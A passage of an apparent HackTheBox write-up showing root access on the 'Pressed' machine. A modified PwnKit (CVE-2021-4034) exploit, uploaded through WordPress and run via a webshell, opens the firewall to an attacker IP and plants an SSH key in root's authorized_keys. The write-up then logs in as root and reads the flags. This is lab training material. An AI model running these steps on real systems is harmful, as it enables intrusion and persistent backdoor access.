$ cat cve-2021-4034-poc.c
...
        "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; iptables -vnL; iptables -A INPUT -p tcp -s 10.10.14.2 -j ACCEPT; iptables -A OUTPUT -p tcp -d 10.10.14.2 -j ACCEPT; iptables -vnL; echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEBrS9Ew9Gm/1YkHvy2r2MIUPY2/t1m78Ms2jypk1y9m kali@kali' >> /root/.ssh/authorized_keys\");\n"
...
```

Remove the previous code

```bash
$ bash webshell.sh 'rm wp-content/uploads/2024/07/cve-*'
```

Send it again

```bash
>>> with open(filename, 'r') as file: script = file.read()
... 
>>> data = { 'name': 'cve-2021-4034-poc.c', 'bits': script, 'type': 'text/plain'}
>>> 
>>> client.call(wp.media.UploadFile(data))
{'attachment_id': '58', 'date_created_gmt': <DateTime '20240702T03:14:20' at 0x7fcc95638d10>, 'parent': 0, 'link': '/wp-content/uploads/2024/07/cve-2021-4034-poc.c', 'title': 'cve-2021-4034-poc.c', 'caption': '', 'description': '', 'metadata': False, 'type': 'text/plain', 'thumbnail': '/wp-content/uploads/2024/07/cve-2021-4034-poc.c', 'id': '58', 'file': 'cve-2021-4034-poc.c', 'url': '/wp-content/uploads/2024/07/cve-2021-4034-poc.c'}
```

```bash
$ curl -s http://pressed.htb/wp-content/uploads/2024/07/cve-2021-4034-poc.c | grep iptables
        "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; iptables -vnL; iptables -A INPUT -p tcp -s 10.10.14.2 -j ACCEPT; iptables -A OUTPUT -p tcp -d 10.10.14.2 -j ACCEPT; iptables -vnL; echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEBrS9Ew9Gm/1YkHvy2r2MIUPY2/t1m78Ms2jypk1y9m kali@kali' >> /root/.ssh/authorized_keys\");\n"
```

```bash
$ bash webshell.sh 'gcc /var/www/html/wp-content/uploads/2024/07/cve-2021-4034-poc.c -o /var/www/html/wp-content/uploads/2024/07/cve-2021-4034-poc'

$ bash webshell.sh '/var/www/html/wp-content/uploads/2024/07/cve-2021-4034-poc'

Chain INPUT (policy DROP 26 packets, 1152 bytes)
 pkts bytes target     prot opt in     out     source               destination         
  204 20201 ACCEPT     tcp  ---  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:80
    6   504 ACCEPT     icmp ---  *      *       0.0.0.0/0            0.0.0.0/0            icmptype 8
 1785  130K ACCEPT     all  ---  lo     *       0.0.0.0/0            0.0.0.0/0           

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         

Chain OUTPUT (policy DROP 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         
    6   504 ACCEPT     icmp ---  *      *       0.0.0.0/0            0.0.0.0/0            icmptype 0
  154  170K ACCEPT     tcp  ---  *      *       0.0.0.0/0            0.0.0.0/0            state RELATED,ESTABLISHED
 1771  126K ACCEPT     all  ---  *      lo      0.0.0.0/0            0.0.0.0/0           
Chain INPUT (policy DROP 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         
  204 20201 ACCEPT     tcp  ---  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:80
    6   504 ACCEPT     icmp ---  *      *       0.0.0.0/0            0.0.0.0/0            icmptype 8
 1785  130K ACCEPT     all  ---  lo     *       0.0.0.0/0            0.0.0.0/0           
    0     0 ACCEPT     tcp  ---  *      *       10.10.14.2           0.0.0.0/0           

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         

Chain OUTPUT (policy DROP 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         
    6   504 ACCEPT     icmp ---  *      *       0.0.0.0/0            0.0.0.0/0            icmptype 0
  154  170K ACCEPT     tcp  ---  *      *       0.0.0.0/0            0.0.0.0/0            state RELATED,ESTABLISHED
 1771  126K ACCEPT     all  ---  *      lo      0.0.0.0/0            0.0.0.0/0           
    0     0 ACCEPT     tcp  ---  *      *       0.0.0.0/0            10.10.14.2
```

```bash
$ nc -zv $TARGET 22
pressed.htb [10.10.11.142] 22 (ssh) open
```

```bash
$ ssh -i ~/.ssh/kali-rsa root@$TARGET
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)
...
Last login: Tue Jul  2 03:29:56 2024 from 10.10.14.2
root@Pressed:~# id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
root@Pressed:~# cat /home/htb/user.txt
faabdbf18***********************

root@Pressed:~# cat /root/root.txt 
254760e1b***********************
```

```bash
```
